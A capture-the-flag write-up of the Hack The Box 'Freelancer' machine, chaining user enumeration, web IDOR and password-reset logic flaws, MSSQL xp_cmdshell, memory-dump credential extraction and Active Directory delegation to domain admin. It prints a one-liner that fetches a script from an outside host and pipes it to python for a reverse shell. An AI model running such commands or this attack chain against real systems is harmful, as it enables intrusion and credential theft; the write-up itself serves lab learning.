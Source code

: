 # PORT SCAN	
* **53** &#8594; DNS
* **80** &#8594; HTTP (NGINX 1.25.5)
* **88** &#8594; KERBEROS
* **135** &#8594; MSRPC
* **139 / 445** &#8594; SMB
* **389 / 636** &#8594; LDAP
* **5985** &#8594; WINRM
* **55297** &#8594; MSSQL EXPRESS 2019

<br><br><br>

# ENUMERATION & USER FLAG

The NSE on MSSQL EXPRESS server retrieved a lot of info about the domain.

![9058204d8a12445d45f9fe6f5545effd.png](img/9058204d8a12445d45f9fe6f5545effd.png)

All right pretty hard now because without an username we cannot access to nothing. I smash my head to the wall but I get the idea adter short delay, we have no username? Let's use [kerbrute](https://github.com/ropnop/kerbrute?tab=readme-ov-file)! Remember CTF are just games after all so we can use the SecLists username list and see if we get some results...

![25a238bf3f086eec50404d7b35115628.png](img/25a238bf3f086eec50404d7b35115628.png)

Damn, cool stuff! But sometimes this tool return some false positive but worry not we can check it with ASREP Roasting technique, luckly all the users are valide into the domain!

![799a562849d40523485481f1909c934f.png](img/799a562849d40523485481f1909c934f.png)

> I just saw an info box on HTB website that state the port 80 of freelancer can get some minutes to pop up. I had to restart to show it back so this is why I started directly with AD protocols...yeah sometimes thing are just a matter of small issue because I was pretty lost after this.

This is the website, 10/10 design score!

![f237068aba8ef788c01d802cf012aeeb.png](img/f237068aba8ef788c01d802cf012aeeb.png)

Ok cool stuff, we have 2 different register user type **<u>employer</u>** and **<u>freelacer</u>**! The only difference between this 2 is that for the employer role to be actived manually by someone in order to be used....interesting! Moreover we have another login form into `/admin`

![f57d663cfe8f63c8b1e255c7c9a8959c.png](img/f57d663cfe8f63c8b1e255c7c9a8959c.png)

Let's create a new freelancer account and let's try to understand what we have available....here you are!

![45db3bdcd9455433dbaee21293987504.png](img/45db3bdcd9455433dbaee21293987504.png)

We have now access to the Blog section where I found an employer profile named **<u>Crista Watterson</u>!**

![bcf6cf381a7b5a87c6433143c5b1c07e.png](img/bcf6cf381a7b5a87c6433143c5b1c07e.png)

The link to the profile reveals the ID `http://freelancer.htb/accounts/profile/visit/5/` interesting a sort of IDOR here!

With some tricks I found an employer account that I have created playing with ID and found that the one with ID 10019 is mine!

![6c98f538a35efc0c515e3a4f8821e807.png](img/6c98f538a35efc0c515e3a4f8821e807.png)

Now we have a ogic vulnerability here because look what is written into the **<u>Forgot Password</u>** section...

![36470cb1a1b868f0ed6f4c7589b38f74.png](img/36470cb1a1b868f0ed6f4c7589b38f74.png)

Yeah so in order to activate our we just need...to recover our password with a new one! We have control into the **employer dashboard** now!

![23ce7e8d1af78381f67280b0d92671af.png](img/23ce7e8d1af78381f67280b0d92671af.png)

Now let's look here, we have something new for an HTB machine a QR generator (refresh every 5 mins) that permits to login as this user we are authenticated with automatically. Now a QR code is simply an encoded URL and with this [website](https://qreader.online/) I was abel to read it and retrieve the URL.

![87572869600a9eb5ace653d2c10346b3.png](img/87572869600a9eb5ace653d2c10346b3.png)

Cool another IDOR because the path start with the base64 string of the user ID plus an (apparently) nonce which change every 5 mins. What if we change the first part with the base64 of `5`, the ID of Crista? 

![037ca093e23439fee1eb49a0678741fa.png](img/037ca093e23439fee1eb49a0678741fa.png)

Booom! Cool stuff now we know how to login as every user, we just need to find the ID. You know who have ID `2`? ADMIN!

![3a79c3335533744514886fd6e254ca15.png](img/3a79c3335533744514886fd6e254ca15.png)

Probably this user have some more option that would help us to going through! Well after login as this user we can navigate to **<u>/admin</u>** and thanks to the cookie obtained everything will be smooth!

![1237cb2e736017b33fd655e7b5a54315.png](img/1237cb2e736017b33fd655e7b5a54315.png)

SQL TERMINAL? OOOOOH UAAAAAU

![cfe437a4a4694dca4ff1a581cad46c1c.png](img/cfe437a4a4694dca4ff1a581cad46c1c.png)

Cool stuff eheheheh, I have checked if we can impersonate a sysadmin and well we can!


![fa4038fea0b159d9defeb85ab243b54d.png](img/fa4038fea0b159d9defeb85ab243b54d.png)

After enabling `xp_cmdshell` we can execute OS commands!

![abc2c8919e07a075af8f9177dd4c4a90.png](img/abc2c8919e07a075af8f9177dd4c4a90.png)


With some enumeration I found that Windows Defender is enabled but we have **<u>python.exe</u>** installed and with this small onhe liner I was able to execute a remote python reverse shell : `EXEC xp_cmdshell "curl http://10.10.14.11/re.py | python.exe";`

![2266fa0c2c2e7db75f7d9269f508e428.png](img/2266fa0c2c2e7db75f7d9269f508e428.png)

![8abb5afc17f48ae989cea9f413e806ba.png](img/8abb5afc17f48ae989cea9f413e806ba.png)

Inside the Download folder of sql_svc I found a **.INI** file thatcontains a password...if you watch Attack On Titan you already now who this password belongs to! 

![c51c516e6d549894e69af7911fe019ee.png](img/c51c516e6d549894e69af7911fe019ee.png)

![305ef395e866e902f6ceb3f429f5de66.png](img/305ef395e866e902f6ceb3f429f5de66.png)

Cool but no WinRM access, no worries because `RunasCs.exe` is here to save the day!

![5322d13445b2d52d817975c6f274e37a.png](img/5322d13445b2d52d817975c6f274e37a.png)

With the same python script I was able to receive a reverse shell as **<u>mikasaAckerman</u>** and we can read the first flag!

![398f540fa40b7f414663307c2c8c3a92.png](img/398f540fa40b7f414663307c2c8c3a92.png)




# PRIVILEGE ESCALATION

Inside the desktop folder of **mikasaAckerman** we have a saved note in txt format...

![08ab3da1565370b1ba0c24b3ae0be322.png](img/08ab3da1565370b1ba0c24b3ae0be322.png)

Interesting stuff, upload netact and use it to get locally the 7z archive which contains a `.DMP` file

![ac06a31dfc0cfd4a8ce4bd589c84adcd.png](img/ac06a31dfc0cfd4a8ce4bd589c84adcd.png)

Well I hate to use Windows no matter what the task is but I discover this really cool project, [memprocFS](https://github.com/ufrisk/MemProcFS). This tool permits to view dump files in ad-hoc filesystem. Really easy and game-changer I would reuse it for sure, documentation clear and easy to use!

![35cccd07b615673c2e6c30d1bb483999.png](img/35cccd07b615673c2e6c30d1bb483999.png)

![38f70a7af89220550c33114f4377d29c.png](img/38f70a7af89220550c33114f4377d29c.png)

In `sys/proc` we can view te processes that were running during the dump. Nothing usefull here...rip

![b8af2bd91f2caf6a12bb2d709dfb02b1.png](img/b8af2bd91f2caf6a12bb2d709dfb02b1.png)

Well the real deal here is the `registry/` path that contains `SAM`, `SAVE` and `SYSTEM`....**<u>pypykatz</u>** kicks in!

![57d284136af2bdb873f8a2bb1f9e5b58.png](img/57d284136af2bdb873f8a2bb1f9e5b58.png)

At the real end we have the LSA secrets (obviously the other hashes would not work into the machine domain) where we have 2 plaintext!

![c883f8fd3d54ec7a4b53ad2528939e3b.png](img/c883f8fd3d54ec7a4b53ad2528939e3b.png)

The last one worked with the user `lorra199`, finally!

![8a8fe600e0022471dd92ccb5ef5f3b62.png](img/8a8fe600e0022471dd92ccb5ef5f3b62.png)

Using bloodhound I was able to see that this user have genericWrite on the machine (Domain Controller) so Resourced Based Contrained Delegation can be achived! 

![e182d1ca3a5b435702cd85356fb65944.png](img/e182d1ca3a5b435702cd85356fb65944.png)


First thing first let's create a Computer object (quota is 10) that we fully controll


![570e99f4a43293ec9f303658803bec2b.png](img/570e99f4a43293ec9f303658803bec2b.png)

Let's allow this machine to delegate to the DC through **S4U2PROXY**

![92e6cc4c2255968ce6b530b81b48682b.png](img/92e6cc4c2255968ce6b530b81b48682b.png)

Now we can request a TGS impersonating the Administrator of the DC, smooth af! 

![21f324ea2f26da20a5bacd60a276c2d5.png](img/21f324ea2f26da20a5bacd60a276c2d5.png)

With DC-SYNC we are now in controll of the Domain Admin and we can use his hash to get the root flag!

![c2c1009fdd8d918b8a6bd2795fc12973.png](img/c2c1009fdd8d918b8a6bd2795fc12973.png)

> memprocFS is cool as fuck!
